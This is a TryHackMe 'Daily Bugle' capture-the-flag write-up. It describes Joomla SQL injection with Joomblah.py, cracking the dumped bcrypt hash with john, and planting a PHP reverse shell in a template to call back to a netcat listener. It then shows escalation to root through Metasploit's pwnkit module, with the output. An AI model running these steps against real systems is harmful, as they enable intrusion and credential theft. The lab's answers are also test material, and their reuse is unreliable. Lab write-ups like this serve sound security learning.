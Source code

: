 ```yaml
---

title: Box - Daily Bugle
published: true
---
```


Compromise a Joomla CMS account via SQLi, practise cracking hashes and escalate your privileges by taking advantage of yum.

[https://tryhackme.com/room/dailybugle](https://tryhackme.com/room/dailybugle)

![](/assets/bugle01.png)

* * *

## Task 1 - Deploy

1. ``sudo nmap -Pn -sS -T4 -p- 10.10.198.207 -oN nmap_initial.txt``
2. ``sudo nmap -sV -sC -T4 -p22,80,3306 10.10.198.207 -oN nmap_second.txt``

```shell
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 68:ed:7b:19:7f:ed:14:e6:18:98:6d:c5:88:30:aa:e9 (RSA)
|   256 5c:d6:82:da:b2:19:e3:37:99:fb:96:82:08:70:ee:9d (ECDSA)
|_  256 d2:a9:75:cf:2f:1e:f5:44:4f:0b:13:c2:0f:d7:37:cc (ED25519)
80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
| http-robots.txt: 15 disallowed entries 
| /joomla/administrator/ /administrator/ /bin/ /cache/ 
| /cli/ /components/ /includes/ /installation/ /language/ 
|_/layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/
|_http-generator: Joomla! - Open Source Content Management
|_http-title: Home
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.6.40
3306/tcp open  mysql   MariaDB (unauthorized)
```

##   Answer the questions below

**Access the web server, who robbed the bank?**

![](/assets/bugle02.png)

- spiderman

* * *

## Task 2 - Obtain user and root 

Hack into the machine and obtain the root user's credentials.

![](/assets/bugle03.png)

##   Answer the questions below

**What is the Joomla version?**

- quick google find version is @ ``/administrator/manifests/files/joomla.xml``
- version 3.7.0

*Instead of using SQLMap, why not use a python script!*

- [Joomblah.py](https://github.com/stefanlucas/Exploit-Joomla/blob/master/README.md)

```shell
 [-] Fetching CSRF token
 [-] Testing SQLi
  -  Found table: fb9j5_users
  -  Extracting users from fb9j5_users
 [$] Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', '', '']
  -  Extracting sessions from fb9j5_session
```

**What is Jonah's cracked password?**

- ``john jonah-pass.hash --wordlist=/usr/share/seclists/Passwords/rockyou.txt --format=bcrypt``
- spiderman123

**What is the user flag?**

1. Travel to templated and customise index.php to reverse shell ``https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php``
2. setup netcat listener, and template preview to get shell.

```shell
┌──(0xskar㉿cocokali)-[~/thm/rooms/dailybugle]
└─$ nc -nvlp 7777          
listening on [any] 7777 ...
connect to [10.x.x.x] from (UNKNOWN) [10.10.16.193] 41306
Linux dailybugle 3.10.0-1062.el7.x86_64 #1 SMP Wed Aug 7 18:08:02 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 18:10:50 up  1:06,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache)
sh: no job control in this shell
sh-4.2$ whoami
whoami
apache
```

3. download and run ./linpeas.sh

**Things to look at:**

- OS: Linux version 3.10.0-1062.el7.x86_64
- Sudo version 1.8.23
- Vulnerable to ``CVE-2021-4034``
- Exploit suggester ``[CVE-2016-5195] dirtycow``

```shell
meterpreter > sysinfo
Computer     : 10.10.16.193
OS           : CentOS 7.7.1908 (Linux 3.10.0-1062.el7.x86_64)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
```

4. ``background meterpreter session``
5. ``search 2021-4034`` and ``use 0``

```shell
msf6 exploit(linux/local/cve_2021_4034_pwnkit_lpe_pkexec) > exploit

[*] Started reverse TCP handler on 10.x.x.x:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] Verify cleanup of /tmp/.ssbbnl
[+] The target is vulnerable.
[*] Writing '/tmp/.ozchxfocjj/corwmy/corwmy.so' (548 bytes) ...
[!] Verify cleanup of /tmp/.ozchxfocjj
[*] Sending stage (3020772 bytes) to 10.10.16.193
[+] Deleted /tmp/.ozchxfocjj/corwmy/corwmy.so
[+] Deleted /tmp/.ozchxfocjj/.ztjfms
[+] Deleted /tmp/.ozchxfocjj
[*] Meterpreter session 2 opened (10.x.x.x:4444 -> 10.10.16.193:48942) at 2022-06-23 16:04:50 -0700

meterpreter > shell
Process 22448 created.
Channel 1 created.
whoami
root
```

**What is the root flag?**

- Get flags with root shell! Was fun!

* * * 

